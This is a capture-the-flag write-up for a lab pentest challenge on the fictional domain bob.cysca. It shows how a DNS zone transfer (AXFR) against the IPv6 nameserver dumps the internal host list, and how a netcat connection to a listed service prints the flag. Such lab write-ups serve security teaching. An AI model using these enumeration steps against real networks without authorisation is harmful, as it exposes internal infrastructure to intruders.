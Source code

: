 Corporate Pentest 1 writeup *Zonedv6*

___
We were initially given the domain bob.cysca

If we do host -t mx bob.cysca we see that it's DNS is managed by ns.bob.cysca and ns6.bob.cysca

Attempting a zone transfer with *nslookup -type=axfr bob.cysca ns6.bob.cysca* gave us the output

*bob.cysca
    origin = ns.bob.cysca
    mail addr = admin.bob.cysca
    serial = 2018020402
    refresh = 28800
    retry = 7200
    expire = 864000
    minimum = 86400
bob.cysca    nameserver = ns.bob.cysca.
bob.cysca    nameserver = ns6.bob.cysca.
Name:    bob.cysca
Address: fc00:1337:1::33b5:33b5
Name:    bob.cysca
Address: 172.16.5.53
flag.udp.bob.cysca    service = 10 10 34532 axfr6flag.bob.cysca.
Name:    aircon.bob.cysca
Address: fc00:1337:1::a17c:4
Name:    axfr6flag.bob.cysca
Address: fc00:1337:1::af76:f1a6
Name:    devbox.dev.bob.cysca
Address: 10.10.5.22
Name:    gitlab.dev.bob.cysca
Address: 10.10.5.116
Name:    glrunner.dev.bob.cysca
Address: 10.10.5.166
Name:    www.dev.bob.cysca
Address: 10.10.5.80
Name:    ns.bob.cysca
Address: 172.16.5.53
Name:    ns6.bob.cysca
Address: fc00:1337:1::10
Name:    custdata.safe.bob.cysca
Address: 10.10.5.192
Name:    w1.bob.cysca
Address: 10.10.5.112
Name:    w1.bob.cysca
Address: fc00:1337:2::3075:7104
Name:    w2.bob.cysca
Address: 10.10.5.113
Name:    www.bob.cysca
Address: fc00:1337:1::33b5:33b5
Name:    www.bob.cysca
Address: 172.16.5.53
bob.cysca
    origin = ns.bob.cysca
    mail addr = admin.bob.cysca
    serial = 2018020402
    refresh = 28800
    retry = 7200
    expire = 864000
    minimum = 86400*
    
From this we can see axfr6flag.bob.cysca has a service running on port 34532

using openbsd-nc we can connect to it by executing

*nc -6v axfr6flag.bob.cysca* 

and it will print the flag

